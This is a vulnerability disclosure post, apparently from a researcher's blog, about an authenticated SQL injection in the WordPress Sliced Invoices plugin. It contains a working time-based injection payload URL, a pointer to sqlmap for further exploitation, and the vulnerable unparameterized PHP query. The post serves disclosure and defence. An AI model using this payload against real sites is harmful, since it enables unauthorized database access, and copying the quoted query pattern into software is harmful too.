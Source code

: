 ```yaml
---
layout: post
title: Wordpress Sliced Invoices <= 3.8.2 Authenticated SQL Injection
date: 2019-10-22 19:26 -0300
categories: [my_exploits, offensive_security]
tags: [ exploit, vulnerability, sql, injection, sliced, invoice, Authenticated]
---
```


![Wordpress Sliced Invoices <= 3.8.2 Authentificated SQL Injection](/uploads/Screenshot from 2019-10-22 23-55-40.png)

Wordpress Sliced Invoices plugin with a version lower then 3.8.2 is affected by an Authenticated SQL Injection vulnerability. Note that this vulnerability is highly similar to [Wordpress Sliced Invoices <= 3.8.2 Authenticated Reflected XSS](http://127.0.0.1:4000/2019/10/22/sliced-invoices-3-8-2-authentificated-reflected-xss-vulnerability/) due to the use of the same GET parameter.

#### Intial submission of the vulnerability

``````markdown
# Exploit Title: Wordpress Sliced Invoices <= 3.8.2 Authenticated SQL Injection Vulnerability
# Date: 22-10-2019
# Exploit Author: Lucian Ioan Nitescu
# Contact: https://twitter.com/LucianNitescu
# Webiste: https://nitesculucian.github.io
# Vendor Homepage: https://slicedinvoices.com/
# Software Link: https://wordpress.org/plugins/sliced-invoices/
# Version: 3.8.2
# Tested on: Ubuntu 18.04 / Wordpress 5.3
 
1. Description:  
 
Wordpress Sliced Invoices plugin with a version lower then 3.8.2 is affected by an Authenticated SQL Injection vulnerability.

2. Proof of Concept: 
 
Authenticated SQL Injection:
- Using an Wordpress user, access <your target> /wp-admin/admin.php?action=duplicate_quote_invoice&post=8%20and%20(select*from(select(sleep(20)))a)--%20
- The response will be returned after 20 seconds proving the successful exploitation of the vulnerability.
- Sqlmap can be used to further exploit the vulnerability.

``````

#### Detailed analysis of the vulnerability

Under `wp-content/plugins/sliced-invoices/admin/class-sliced-admin.php` at line number `2202` we can observe the use of non parameterized queries using `$wpdb->get_results()` with user-supplied data:

```php
$post_meta_infos =  ("SELECT meta_key, meta_value FROM $wpdb->postmeta WHERE post_id=$post_id");
```

Where the `$post_id` variable is assigned on line `2154` as:

```php
/*
* get the original post id
*/
$post_id = (isset($_GET['post']) ? $_GET['post'] : $_POST['post']);
```

This vulnerability could be easily exploited by accessing `example.com/wp-admin/admin.php?action=duplicate_quote_invoice&post=8%20and%20(select*from(select(sleep(20)))a)--%20` where `example.com` is your target. To retrieve more data you can use the sqlmap tool over the affected target URL.

#### How to fix

Update to the latest available version of the Sliced Invoices plugin.

#### Public appearances

- Exploit Database: [https://www.exploit-db.com/exploits/47540](https://www.exploit-db.com/exploits/47540)
- Packet Storm: [https://packetstormsecurity.com/files/154953/WordPress-Sliced-Invoices-3.8.2-SQL-Injection.html](https://packetstormsecurity.com/files/154953/WordPress-Sliced-Invoices-3.8.2-SQL-Injection.html)

#### Other references

- WPVDB: [https://wpvulndb.com/vulnerabilities/9920](https://wpvulndb.com/vulnerabilities/9920)